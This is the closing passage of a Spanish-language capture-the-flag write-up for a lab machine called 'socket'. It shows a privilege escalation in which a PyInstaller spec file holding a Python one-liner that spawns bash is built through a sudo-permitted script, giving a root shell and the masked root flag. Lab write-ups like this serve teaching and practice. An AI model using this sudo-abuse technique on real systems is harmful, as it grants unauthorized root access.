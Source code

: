 ```bash
tkeller@socket:/tmp$ echo 'import os;os.system("/bin/bash")' > root.spec

tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build root.spec 

550 INFO: PyInstaller: 5.6.2
551 INFO: Python: 3.10.6
554 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
559 INFO: UPX is not available.

root@socket:/tmp# whoami
root

root@socket:/tmp# cat ~/root.txt 
a1b**************************3c7
```
Con todo esto, ya podemos visualizar la **Flag de root**.

# Espro que te pueda servir de ayuda. *GRACIAS por venir*


